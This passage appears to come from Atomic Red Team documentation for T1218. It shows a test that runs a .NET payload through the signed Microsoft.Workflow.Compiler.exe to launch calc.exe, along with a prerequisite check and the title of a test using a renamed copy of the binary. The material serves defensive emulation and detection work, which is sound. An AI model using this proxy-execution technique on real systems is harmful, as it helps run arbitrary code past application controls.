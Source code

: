 


<br/>
<br/>

## Atomic Test #6 - Microsoft.Workflow.Compiler.exe Payload Execution
Emulates attack with Microsoft.Workflow.Compiler.exe running a .Net assembly that launches calc.exe

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| xml_payload | XML to execution | path | PathToAtomicsFolder&#92;T1218&#92;src&#92;T1218.xml|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-Location -path PathToAtomicsFolder\T1218\src ;
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe "#{xml_payload}" output.txt
```




#### Dependencies:  Run with `powershell`!
##### Description: .Net must be installed for this test to work correctly.
##### Check Prereq Commands:
```powershell
if (Test-Path C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe ) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
write-host ".Net must be installed for this test to work correctly."
```




<br/>
<br/>

## Atomic Test #7 - Renamed Microsoft.Workflow.Compiler.exe Payload Executions
Emulates attack with a renamed Microsoft.Workflow.Compiler.exe running a .Net assembly that launches calc.exe

**Supported Platforms:** Windows
